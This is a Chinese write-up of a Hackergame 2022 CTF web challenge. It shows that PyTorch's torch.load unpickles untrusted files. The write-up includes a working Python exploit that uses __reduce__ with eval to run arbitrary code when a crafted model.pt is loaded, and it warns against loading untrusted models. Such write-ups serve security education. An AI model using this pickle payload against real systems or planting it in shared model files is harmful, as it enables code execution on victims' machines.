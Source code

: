 # 二次元神经网络

题解作者：[volltin](https://github.com/volltin)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：web

- 题目分值：250

天冷极了，下着雪，又快黑了。这是一年的最后一天——大年夜。在这又冷又黑的晚上，一个没有 GPU、没有 TPU 的小女孩，在街上缓缓地走着。她从家里出来的时候还带着捡垃圾捡来的 E3 处理器，但是有什么用呢？跑不动 Stable Diffusion，也跑不动 NovelAI。她也想用自己的处理器训练一个神经网络，生成一些二次元的图片。

于是她配置好了 PyTorch 1.9.1，定义了一个极其简单的模型，用自己收集的 10 张二次元图片和对应的标签开始了训练。

```
SimpleGenerativeModel(
  (tag_encoder): TagEncoder(
    (embedding): Embedding(63, 8, padding_idx=0)
  )
  (model): Sequential(
    (0): Linear(in_features=16, out_features=8, bias=True)
    (1): ReLU()
    (2): Linear(in_features=8, out_features=8, bias=True)
    (3): ReLU()
    (4): Linear(in_features=8, out_features=64 * 64 * 3, bias=True)
    (5): Tanh()
  )
)
```

她在 CPU 上开始了第一个 epoch 的训练，loss 一直在下降，许多二次元图片重叠在一起，在向她眨眼睛。

她又开始了第二个 epoch，loss 越来越低，图片越来越精美，她的眼睛也越来越累，她的眼睛开始闭上了。

...

第二天清晨，这个小女孩坐在墙角里，两腮通红，嘴上带着微笑。新年的太阳升起来了，照在她小小的尸体上。

人们发现她时才知道，她的模型在 10 张图片上过拟合了，几乎没有误差。

（完）

听完这个故事，你一脸的不相信：「这么简单的模型怎么可能没有误差呢？」，于是你开始复现这个二次元神经网络。

## 题解

tl;dr: 这道题目是 web 题，漏洞点在于 `torch.load` 调用了 `pickle` 模块，加载模型参数的过程是不安全的，通过构造特定的文件，可以达成任意命令执行。

之所以出这道题，是因为最近各种图片生成模型很火，有很多人可能会从网上下载一些模型，然后在自己电脑、实验室的服务器等地方 load and run，其实这是非常危险的，查看 PyTorch 的 [文档](https://pytorch.org/docs/stable/generated/torch.load.html) 也能看到 **Only load data you trust** 的警告。

从网站上得到附件 `2d_model.zip` 后，根据说明可以尝试上传 `checkpoint/model.pt`，这是一个稍微训练了一下的网络参数，结果不是很好，所以大概会得到类似的提示：

> 最大误差：0.05549 > 0.0005，没有达到要求。每张图片的误差（loss 值）：0.01418, 0.01349, 0.05549, 0.00977, 0.01611, 0.01215, 0.02244, 0.03020, 0.02355, 0.01839

接下来根据题目的提示「上传模型后将会由 `infer.py` 运行」，可以重点分析 `infer.py` 的内容，其中第 23 行：

```python
model.load_state_dict(torch.load(pt_file, map_location="cpu"))
```

是漏洞出现的地方，只要我们能够控制 `pt_file` 的值，就可以达成任意命令执行，利用方法和 `pickle.load` 完全相同，大家可以网上搜索。

第 43 行说明了我们应该把答案写入一个文件中：

```python
json.dump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))
```

所以只要将作为答案的真实图片直接写入即可，最后得到 payload 如下：

```python
import io
import json
import base64

import torch
import matplotlib
import matplotlib.image

# 加载正确答案
PIXEL_FILE="../files/dataset/pixels_10.pt"
predictions = torch.load(PIXEL_FILE, map_location="cpu")

# 生成 base64 格式的数据
gen_imgs = []
for i in range(10):
    out_io = io.BytesIO()
    matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
    png_b64 = base64.b64encode(out_io.getvalue()).decode()
    gen_imgs.append(png_b64)

content = json.dumps({"gen_imgs_b64": gen_imgs})

# 构造要执行的 python 代码
args = "open('/tmp/result.json', 'w').write('" + content.replace('\\', '\\\\').replace("'", "\\'") + "')"

# 通过 __reduce__ 方法执行 python 代码
class Exploit(object):
    def __reduce__(self):
        return (eval, (args,))

torch.save(Exploit(), "model_exp.pt")
```

提交生成的 `model_exp.pt`，即可得到 flag。

在这道题中，由于 eval 返回值不是一个合法的 `state_dict`，所以后续的代码会报错，但是没有关系，web 前端调用这个代码时会忽略异常，不管是否有异常，执行之后去读取 `/tmp/result.json`。

## 统计信息

选手们提交的模型的误差最低为 0.001。

~~（更多统计敬请期待）~~

## 附注

@taoky: 

用 `torch.load()` 来 RCE 的题目其实我去年就有这个想法，但是当时因为种种原因没有实现。最近适逢 Diffusion 模型大火，豆豆和我一合计，就搞了这道题。我不太懂机器学习，所以我主要做的是 web 框架的代码实现，以及……数据集里那十张图片和标签也是我搞的。不幸的是，我也既没有 GPU，也没有 TPU，所以标签都是自己凭感觉写的。

选图的时候，从自己看过的番剧里面选了一些名场面（[十张图的内容](src/web/app/static/images/)）。~~不过比赛的时候 [Elsa Granger](https://github.com/zeyugao) 问我为什么这 10 张图没有每张都选不一样的，这样就能并发地安利十个番了~~。

在最后：**快点去看《摇曳露营》《莉可丽丝》[^1]《LoveLive 虹咲学园学园偶像同好会》《Slow Loop》《孤独摇滚》[^2]和《街角魔族》（按图片顺序排序）！**

emm...

![yamanosusume](assets/yama.png)

《向山进发》（十月是第四季放送）也很好看！甚至我某台 VPS 的 motd 也是 aoi：

![aoi](assets/aoi.png)

[^1]: 我不是很推荐《莉可丽丝》的剧情，但是名场面真的有点多，所以我放了两张。
[^2]: 十月新番。
